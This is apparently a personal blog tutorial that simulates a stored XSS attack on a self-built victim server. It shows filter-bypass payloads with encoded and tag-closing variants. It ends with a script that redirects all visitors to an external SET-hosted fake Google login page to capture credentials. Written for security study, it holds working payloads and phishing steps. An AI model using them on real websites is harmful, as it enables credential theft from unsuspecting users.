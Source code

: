 ```yaml
---
layout: post
title: XSS Attack
date: 2022-06-13
Author: Ali
categories: 
tags: [cyber security, web security]
comments: true
---
```


### ⚠<u>**This article is only used for cyber security research, please do not use it for improper purposes.**</u>⚠





## Attack Simulation Design



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image01.png){width="5.768055555555556in" height="3.0833333333333335in"}



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image02.png){width="5.768055555555556in" height="3.0833333333333335in"}



## Create WEB Server

#### In order to simulate the attack more intuitively, I chose to rent a windows 2019 in Azure to create a victim web server.

#### The specific steps will not be demonstrated, I believe everyone can do it.

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image001.png){width="5.768055555555556in" height="3.0833333333333335in"}





## Step 1: Start testing your website for XSS attacks





### **An XSS attack requires two conditions**:

- #### **Need to inject malicious code into web pages;**

- #### **These malicious codes can be successfully executed by the browser**





### 😎First try😎



### Testing:

#### Try the simplest test code first 

<script>alert(/XSS/)</script>

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image002.png){width="5.768055555555556in" height="4.117361111111111in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image003.png){width="5.400468066491689in" height="1.7501520122484688in"}





## Result :

#### The returned result shows that the write was successful and nothing happens on the web page.

#### F12 to view the code, it shows that the input content is filtered, the "script" tag is not executed on the web page, but is directly printed in the form of text.



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image004.png){width="5.768055555555556in" height="1.511111111111111in"}













### 😎Second try😎



### Testing:

#### I want to test if the website has symbol filtering

%3cscript%3ealert(/XSS/)%3c/script%3e

#### HTML supports different encodings in many cases

####  like "<"  is equivalent to %3c and ">"  is equivalent to %3e.

#### This method can bypass some symbol filtering

![img ](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image006.png){width="5.768055555555556in" height="0.8555555555555555in"}





### Result :

#### From the results, < is not on the filter list.

#### An accident is that after several attempts, I found that although the web page did not filter" <>" but it filtered the brackets "()".



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image005.png){width="5.768055555555556in" height="2.6944444444444446in"}







### 😎Third try 😎



### Testing:

#### From the results of the first attempt, the input content will be passed in the form of text, indicating that the input content is limited to a tag, and the analysis code can also find that all our content is in the <u>**"td"**</u> tag.



#### Try closing the tab this time，We need add “Textarea” and “td” into our code.

```html
</textarea></td>%3cscr%3cscript%3eipt%3ealert(/XSS/)%3c/scr%3c/script%3eipt%3e
```

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image007.png){width="5.768055555555556in" height="3.9555555555555557in"}



### Result :

#### The code we entered appeared directly on the web page, which is a successful signal

#### This shows that the code is indeed executed.



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image008.png){width="5.768055555555556in" height="0.9854166666666667in"}





### 😎Fourth try：😎

### Testing:

### In the third attempt, the code was successfully executed, but there was no pop-up window specific to XXS attacks. 

### My thinking this time is to append the "Body" closing tag,

#### 





```html
</body\>\</textarea\>\</td\>\<svg\>\<script\>alert&#40/XSS/&#41\</script\>
```

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image009.png){width="5.768055555555556in" height="2.571527777777778in"}





### Result :

#### The XSS attack was successful and the code was successfully executed. 

#### After successful execution of XSS, all users browsing this web will be affected.

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image010.png){width="5.768055555555556in" height="3.15625in"}







## Step 2: Build a phishing website via SET 

#### The hacker uses the latest Kali system, 

#### we can use the SET attack to quickly create a phishing web page, and any results entered on the phishing web page will be returned to the SET server.

#### This time I used google's login page directly

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image013.png){width="5.768055555555556in" height="4.236111111111111in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image015.png){width="5.768055555555556in" height="3.277083333333333in"}



#### After the phishing website is completed, we need to map the webpage to the public network so that everyone on the Internet can access the phishing website.



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image016.png){width="5.768055555555556in" height="3.4756944444444446in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image017.png){width="5.768055555555556in" height="1.3784722222222223in"}







## Implant malicious code

   

#### Use window.location.href=\"https://fubxzk.39nat.com\"; instead of alert&#40/XSS/&#41\

#### The final malicious code is：

```html
</body\>\</textarea\>\</td\>\<svg\>\<script\>window.location.href=\"https://fubxzk.39nat.com\";\</script\>
```

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image020.png){width="5.768055555555556in" height="2.841666666666667in"}







#### If the user enters account information on the web page, the information will be sent directly to the SET server

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image021.png){width="5.768055555555556in" height="3.6444444444444444in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image022.png){width="5.768055555555556in" height="2.0368055555555555in"}



#### So far, An entire XSS attack is completed.

#### By the way,This is not my email address, and the password is also made up.

### and

# ⚠<u>**This article is only used for cyber security research, please do not use it for improper purposes.**</u>⚠



